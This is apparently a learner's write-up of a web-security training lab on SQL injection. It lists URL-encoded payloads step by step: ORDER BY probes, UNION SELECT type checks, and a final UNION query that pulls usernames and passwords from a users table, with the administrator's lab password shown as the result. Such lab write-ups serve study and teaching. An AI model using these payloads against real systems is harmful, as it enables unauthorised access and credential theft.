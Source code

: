 # Retrieving multiple values in a single column
## Description
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

### step 1
#### Determine the number of columns on both tables in order to use the UNION attack
'+order+by+1-- = response 200
'+order+by+2-- = response 200
'+order+by+3-- = response 500 

##### analysis 
The table has 2 columns

### step 2 
####  Determine the data types of each columns 
'+UNION+SELECT+'abc',NULL-- = response 500
'+UNION+SELECT+NULL,'abc'-- = response 200

##### Analysis
The second column is of string data type.

### step 3
#### Retriving the contents of the users table
'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- = response 200
results = administrator~nc1ne4hr8o19e8j8kmws

